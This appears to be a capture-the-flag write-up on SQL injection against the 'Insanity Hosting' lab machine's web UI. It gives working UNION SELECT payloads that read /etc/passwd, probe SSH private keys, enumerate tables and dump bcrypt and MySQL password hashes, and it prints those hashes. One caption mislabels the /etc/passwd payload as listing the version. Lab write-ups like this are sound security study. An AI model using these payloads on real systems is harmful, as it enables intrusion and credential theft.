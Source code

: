 ```yaml
---
layout: default
title: SQLi Web UI
parent: SQL Injection
nav_order: 1
---
```


# SQLi Web UI

---

## Test for SQLi

The payload _" OR 1=1 -- -_ in the Title field results in successful SQLi and dumping the database.

![sql1](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql1.png)

![mail3](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail3.png)

The payload _" UNION SELECT null, @@version,null,null -- -_ successfully lists the database version.

![sql2](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql2.png)

![mail4](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail4.png)

The payload _" UNION SELECT null,LOAD_FILE('/etc/passwd'),null,null -- -_ successfully lists the database version.

![sql3](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/sql3.png)

![mail5](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail5.png)

## Try to list users _elliot_ or _nicholas_ RSA private key

The payload _" UNION SELECT null,LOAD_FILE('/home/nicholas/.ssh/id_rs'),null,null -- -_ for user _nicholas_

The payload _" UNION SELECT null,LOAD_FILE('/home/elliot/.ssh/id_rs'),null,null -- -_ for user _elliot_

Neither worked.

![mail6](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail6.png)

## Get user password hashes.

_Step 1_ | Get the table names

The payload _" UNION SELECT null,group_concat(table_name),null,null from information_schema.tables where table_schema = database() -- - _

![mail7](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail7.png)

We have table names: _hosts_, _log_, and _users_

_Step 2_ | Get the column names for the _users_ table

The payload _" UNION SELECT null,group_concat(column_name),null,null from information_schema.columns where table_schema = database() and table_name = 'users' -- - _

We have the columns: _id_, _username_, _password_, and _email_

![mail8](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail8.png)

_Step 3_ | Extract the records from the _users_ table.

The payload _" UNION SELECT null,group_concat(username,password,email),null,null from users -- - _

![mail9](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail9.png)

We get the following hashes back:

```bash
admin$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cmaadmin@insanityhosting.vm

nicholas$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qenicholas@insanityhosting.vm

otis$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFWotis@insanityhosting.vm
```

Unable to get any to crack

## SQLi to Extract MySQL Users Table Records

While we could not get the hashes to crack from the _users_ table we will attempt to get the password hash from the _mysql.user_ table.

The payload " UNION SELECT null,group_concat(user,password,authentication_string),null,null from mysql.user -- -

![mail10](../../../../assets/images/ctfs/proving_grounds/insanity_hosting/mail10.png)

We get the following hashes:

```bash
root*CDA244FF510B063DA17DFF84FF39BA0849F7920F
elliot*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```
